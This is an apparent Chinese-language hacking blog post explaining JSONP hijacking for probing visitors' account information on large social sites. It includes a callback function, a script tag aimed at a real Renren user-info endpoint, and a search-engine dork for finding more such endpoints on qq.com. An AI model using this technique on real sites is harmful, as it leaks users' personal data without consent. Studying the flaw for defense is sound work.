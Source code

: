 ```yaml
---
category:	Hacking
layout:		post
title:		使用JSONP攻击探测目标用户信息
desc:		jsonp攻击已经算是很成熟了，出来了应该很久，但是知道的人也许并不是很多。这个玩意能做什么呢？也许你能让TA发挥更强大！
tags:		[jsonp,xss,xss-jsonp,jsonp攻击,探测信息]
---
```

#### 科普
如果你是第一次听说这个玩意，可以点击[jsonp-百度百科](http://baike.baidu.com/view/2131174.htm?fr=aladdin)进行大概的了解。    

#### 原理
很多大型的网站，比如百度、QQ、人人、新浪等等社交网站，都存在`jsonp`接口以方便其他页面调用。    
比如要获取当前的登陆用户信息，则需要在本地定义一个接收用户信息的函数，然后再使用`<script>`标签进行跨域地访问`jsonp`接口，`jsonp`返回的数据一般都是`json`格式，也就是`js`可以直接`eval`的代码，然后再把执行成功的`object`返回给用户定义的函数。    
额，这个是个人的简单理解，因人而已，可以不必纠结。。

#### 利用
我们先定义一个我们的接收函数：
[code:javascript:]
function cb(data){
	console.log('[*] 获取到数据..');
	console.log(data);
}
[codend]

然后再添加一个`<script>`标签引用我们扫描到的`jsonp`接口：
[code:xml:]
<script src="http://passport.game.renren.com/user/info?callback=cb"></script>
[codend]
这里注意的是，`URL`中的`callback`参数为我们定义的函数名称。如果不出意外，`js`脚本在执行完毕之后就会执行我们的`cb`函数了。

#### 扩展
综上所述，如果我们需要探测对方的信息，则需要更多的`jsonp`接口来探测，这时候问题就来了，我们如何去扫描`jsonp`接口呢？    
根据一般的`jsonp`地址不难看出有个特性，就是基本都有`callback`参数，那么我们就可以直接使用搜索引擎搜索类如：

	site:qq.com inurl:callback

还可以自己写个插件神马的，浏览一个网站的时候判断所访问的所有`url`地址，然后判断是否为`jsonp`，那效率杠杠的！